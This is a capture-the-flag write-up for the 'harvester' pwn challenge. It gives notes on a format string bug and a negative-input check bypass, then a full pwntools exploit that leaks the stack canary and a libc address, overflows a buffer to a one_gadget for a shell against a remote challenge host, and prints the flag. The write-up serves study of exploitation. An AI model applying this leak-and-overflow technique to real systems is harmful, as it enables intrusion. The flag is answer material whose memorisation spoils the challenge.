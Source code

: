 ```yaml
---
title: harvester
date: 2021-04-23
categories: [pwn]
tags: [cyberapocalpyse2021]
toc: false
---
```


#### Notes:
- Binary comes with all mitigations and we are given libc
- There is a menu with options of: fight, stare, inventory, or run (exit)
- check_pies(num_pies) checks for num_pies <= 0x64 && num_pies != 0xf
- Format string bug in fight() -> printf(&user_input)
- inventory() shows how many pies we have, it also allows us to drop pies, this will be used to bypass check_pie(num_pies) later
- stare() allows us to gain 1 pie every time, when we have 0x16 pies, it lets us read 0x40 bytes to a buffer, this is where we will inject our payload

#### Plan:
- Leak canary and a libc address using FSB
- After calculating libc base, we can use a one_gadget to do a one pass exploit
- Bypass check_pie(num_pies) by dropping -11 pies in inventory(),
since the logic to drop pies is pie = pie - amt_to_drop, we can just do pie = pie - (-11) to get to 0x16 pies
- Send payload with canary and one_gadget 

#### harvest():

![Snippet of harvest()](/assets/img/cyberapoc/harvester/harvest.png)

#### inventory():

![Snippet of inventory()](/assets/img/cyberapoc/harvester/inventory.png)

#### fight():

![Snippet of fight()](/assets/img/cyberapoc/harvester/fight.png)

#### stare():

![Snippet of stare()](/assets/img/cyberapoc/harvester/stare.png)

#### PoC:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template harvester
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('harvester')
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *fight+198
b *stare+233
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

#io = start()
io = remote('138.68.179.198', 32034)

canary_position = b'%11$p'

def fight(payload):
    io.recvuntil('> ')
    io.sendline('1')
    io.recvuntil('> ')
    io.sendline(payload)

def stare():
    io.recvuntil('> ')
    io.sendline('3')

def inventory(drop_amt):
    io.recvuntil('> ')
    io.sendline('2')
    io.recvuntil('> ')
    io.sendline('y')
    io.recvuntil('> ')
    io.sendline(drop_amt)

fight(canary_position)

io.recvuntil('is: ')
canary = int(io.recvline()[0:18], 16)
print('Canary: ', hex(canary))

libc_addr_position = b'%21$p'
fight(libc_addr_position)

io.recvuntil('is: ')
leak = int(io.recvline()[0:14], 16)
print('Leak: ', hex(leak))

libc_base = leak - 0x021bf7
one_gadget = libc_base + 0x4f3d5
print('Libc base: ', hex(libc_base))

inventory('-11')
stare()

payload = flat({
    40: p64(canary),
    56: p64(one_gadget)
})

io.recvuntil('> ')
io.sendline(payload)

io.interactive()

# CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```